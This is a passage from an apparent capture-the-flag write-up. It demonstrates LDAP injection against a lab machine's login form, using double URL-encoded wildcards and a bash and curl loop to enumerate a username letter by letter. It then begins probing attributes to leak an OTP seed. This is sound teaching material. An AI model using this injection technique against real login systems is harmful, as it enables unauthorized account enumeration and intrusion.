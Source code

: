 It looks like the form is url-encoding my input as well, so this actually goes
in as double url-encoded. The first encoding takes `*` –> `%2a`, and the
second encodes the `%` to take `%2a` –> `%252a`.

Now, I should be able to see what the username starts with using a bash loop
and `curl` and a couple `grep` to isolate the part of the response I care
about:

    
    
    root@kali# for c in {a..z}; do curl -s http://10.10.10.122/login.php -d "inputUsername=${c}%252a&inputOTP=0000" | grep -A1 '<div class="col-sm-10">' | grep '</div>'; done      
        User a%2a not found    </div>
        User b%2a not found    </div>       
        User c%2a not found    </div>       
        User d%2a not found    </div>       
        User e%2a not found    </div>       
        User f%2a not found    </div>    
        User g%2a not found    </div>       
        User h%2a not found    </div>       
        User i%2a not found    </div>
        User j%2a not found    </div>       
        User k%2a not found    </div>       
        Cannot login    </div>              
        User m%2a not found    </div>       
        User n%2a not found    </div>
        User o%2a not found    </div>
        User p%2a not found    </div>        
        User q%2a not found    </div>        
        User r%2a not found    </div>
        User s%2a not found    </div>
        User t%2a not found    </div>      
        User u%2a not found    </div>
        User v%2a not found    </div>
        User w%2a not found    </div>
        User x%2a not found    </div>
        User y%2a not found    </div>
        User z%2a not found    </div>  
    

Based on that result, the username starts with “l”. Now I have a method to
brute force the username. I could continue to brute for using bash, but I’m
going to write something in python in a minute.

### Leak OTP Seed

#### Identify Attribute

The comment on the page said that the token string is stored in an already
existing schema element. I wrote a query that would check that an attribute
had something in it. Then I started with [this
list](http://www.zytrax.com/books/ldap/ape/) and made a list of the ones that
seemed like they could hold an 81 digit numerical value:
